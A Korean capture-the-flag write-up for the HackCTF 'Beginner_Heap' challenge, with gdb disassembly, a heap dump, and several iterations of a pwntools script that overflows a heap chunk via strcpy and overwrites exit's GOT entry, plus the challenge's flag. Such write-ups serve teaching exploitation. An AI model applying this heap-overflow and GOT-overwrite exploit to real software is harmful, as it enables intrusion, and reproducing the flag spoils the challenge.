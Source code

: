 #Beginner_Heap

---

ida를 통해서 `main()`의 시작 주소가 0x6008a8임을 알았고, `main()`의 코드는 다음과 같다.

    gdb-peda$ x/52i 0x4008a8
       0x4008a8:	push   rbp
       0x4008a9:	mov rbp,rsp
       0x4008ac:	sub rsp,0x1030
       0x4008b3:	mov DWORD PTR [rbp-0x1024],edi
       0x4008b9:	mov QWORD PTR [rbp-0x1030],rsi
       0x4008c0:	mov rax,QWORD PTR fs:0x28
       0x4008c9:	mov QWORD PTR [rbp-0x8],rax
       0x4008cd:	xor eax,eax
       0x4008cf:	mov edi,0x10
       0x4008d4:	call   0x4006d0 <malloc@plt>
       0x4008d9:	mov QWORD PTR [rbp-0x1020],rax
       0x4008e0:	mov rax,QWORD PTR [rbp-0x1020]
       0x4008e7:	mov DWORD PTR [rax],0x1
       0x4008ed:	mov edi,0x8
       0x4008f2:	call   0x4006d0 <malloc@plt>
       0x4008f7:	mov rdx,rax
       0x4008fa:	mov rax,QWORD PTR [rbp-0x1020]
       0x400901:	mov QWORD PTR [rax+0x8],rdx
       0x400905:	mov edi,0x10
       0x40090a:	call   0x4006d0 <malloc@plt>
       0x40090f:	mov QWORD PTR [rbp-0x1018],rax
       0x400916:	mov rax,QWORD PTR [rbp-0x1018]
       0x40091d:	mov DWORD PTR [rax],0x2
       0x400923:	mov edi,0x8
       0x400928:	call   0x4006d0 <malloc@plt>
       0x40092d:	mov rdx,rax
       0x400930:	mov rax,QWORD PTR [rbp-0x1018]
       0x400937:	mov QWORD PTR [rax+0x8],rdx
       0x40093b:	mov rdx,QWORD PTR [rip+0x20074e]# 0x601090 <stdin>
       0x400942:	lea rax,[rbp-0x1010]
       0x400949:	mov esi,0x1000
       0x40094e:	mov rdi,rax
    => 0x400951:	call   0x4006c0 <fgets@plt>
       0x400956:	mov rax,QWORD PTR [rbp-0x1020]
       0x40095d:	mov rax,QWORD PTR [rax+0x8]
       0x400961:	lea rdx,[rbp-0x1010]
       0x400968:	mov rsi,rdx
       0x40096b:	mov rdi,rax
       0x40096e:	call   0x400690 <strcpy@plt>
       0x400973:	mov rdx,QWORD PTR [rip+0x200716]# 0x601090 <stdin>
       0x40097a:	lea rax,[rbp-0x1010]
       0x400981:	mov esi,0x1000
       0x400986:	mov rdi,rax
       0x400989:	call   0x4006c0 <fgets@plt>
       0x40098e:	mov rax,QWORD PTR [rbp-0x1018]
       0x400995:	mov rax,QWORD PTR [rax+0x8]
       0x400999:	lea rdx,[rbp-0x1010]
       0x4009a0:	mov rsi,rdx
       0x4009a3:	mov rdi,rax
       0x4009a6:	call   0x400690 <strcpy@plt>
       0x4009ab:	mov edi,0x0
       0x4009b0:	call   0x400710 <exit@plt>

코드의 전체적인 내용은 청크를 4개 할당하고, 그 중에서 2번째와 4번째 청크에 rbp-1010에 받아두었던 0x1000만큼의 문자열을 복사한다.

일단 0x400951에서 break를 걸고, 청크의 모습을 확인해보니 다음과 같았다.

    gdb-peda$ x/20gx 0x602000
    0x602000:	0x0000000000000000	0x0000000000000021
    0x602010:	0x0000000000000001	0x0000000000602030
    0x602020:	0x0000000000000000	0x0000000000000021
    0x602030:	0x0000000000000000	0x0000000000000000
    0x602040:	0x0000000000000000	0x0000000000000021
    0x602050:	0x0000000000000002	0x0000000000602070
    0x602060:	0x0000000000000000	0x0000000000000021
    0x602070:	0x0000000000000000	0x0000000000000000
    0x602080:	0x0000000000000000	0x0000000000020f81
    0x602090:	0x0000000000000000	0x0000000000000000

익스 시나리오는 다음과 같다. 첫번째 `strcpy()`를 통해서 다음 `strcpy()`를 할때 주소를 참조할 0x602058에 stack에서 ret주소를 저장하고 있는 주소를 담고, 그 밑에는 shellcode를 담는다. 이후 다음 `strcpy()`에서는 shellcode의 주소를 적는다. 그렇게 하면 shellcode로 ret되어서 쉘을 따낼 수 있을 것이다.

하지만 NX 보안이 걸려있어서 heap영역에 data를 쓸 수는 있지만 이를 실행시킬 수는 없다. 또한 code영역을 수정할 수 없다. 그래서 다른 방법을 찾아보자.

---

우선 원하는 영역에 원하는 데이터를 쓸 수 있는 능력을 가지고 있다. 

got overwrite를 통해서 system을 불러 오려고 하여도 1번 밖에 쓰지를 못하기 때문에 불가능하고, one_gadget을 쓰려고 해도 leak이 불가능하기 때문에 힘들었다.

그러다가 ida를 보니 sub_400826이 flag를 출력해주는 함수였다.... 여기로 ret시키겠다.

exit의 got주소는 0x601068이다.

    gdb-peda$ got
    
    /home/sjy0175/Desktop/HackCTF/beginner_heap.bin: file format elf64-x86-64
    
    DYNAMIC RELOCATION RECORDS
    OFFSET   TYPE  VALUE 
    ...
    0000000000601060 R_X86_64_JUMP_SLOT  getline@GLIBC_2.2.5
    0000000000601068 R_X86_64_JUMP_SLOT  exit@GLIBC_2.2.5

이 곳에 0x400826을 쓸 것이다.

그래서 코드를 다음과 같이 짜보았다.

    from pwn import*
    
    p=process('./beginner_heap.bin')
    
    func_flag=0x400826
    got_exit=0x601068
    
    payload1='\x00'*24
    payload1+='\x21\x00\x00\x00\x00\x00\x00\x00'
    payload1+='\x02\x00\x00\x00\x00\x00\x00\x00'
    payload1+=p64(got_exit)
    
    p.send(payload1)
    
    log.info(payload1)
    
    p.send(p64(func_flag))

하지만 이 코드는 `strcpy()`에서 문자열을 복사할 때, '\x00'을 문자열의 끝이라 인식하여 제대로 복사하지 않는 문제점이 있었다. 따라서 코드를 다음과 같이 수정했다.

    from pwn import*
    
    p=process('./beginner_heap.bin')
    
    func_flag=0x400826
    got_exit=0x601068
    
    payload1='A'*40
    payload1+=p64(got_exit)
    
    p.send(payload1)
    
    log.info(payload1)
    
    p.send(p64(func_flag))

하지만 이 코드도 문제점이 있었다.

첫번째 send와 두번째 send사이에 공백이 없어서 한꺼번에 인자가 들어갔기 때문이다. 따라서 코드를 다음과 같이 고치고 remote로 수정한다음 실행하면 flag를 얻을 수 있다.

    from pwn import*
    
    p=remote("ctf.j0n9hyun.xyz", 3016)
    
    func_flag=0x400826
    got_exit=0x601068
    
    payload='A'*40
    payload+=p64(got_exit)
    
    p.sendline(payload)
    
    log.info(payload)
    
    p.sendline(p64(func_flag))
    
    print p.recvline()

flag는 다음과 같다.

    sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF$ python ex.py
    [+] Opening connection to ctf.j0n9hyun.xyz on port 3016: Done
    [*] AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAh\x10`\x00\x00\x00\x00\x00
    HackCTF{4r3_y0u_r34dy_w3lc0m3_70_h34p_53k41}
    
    [*] Closed connection to ctf.j0n9hyun.xyz port 3016

**flag=HackCTF{4r3_y0u_r34dy_w3lc0m3_70_h34p_53k41}**
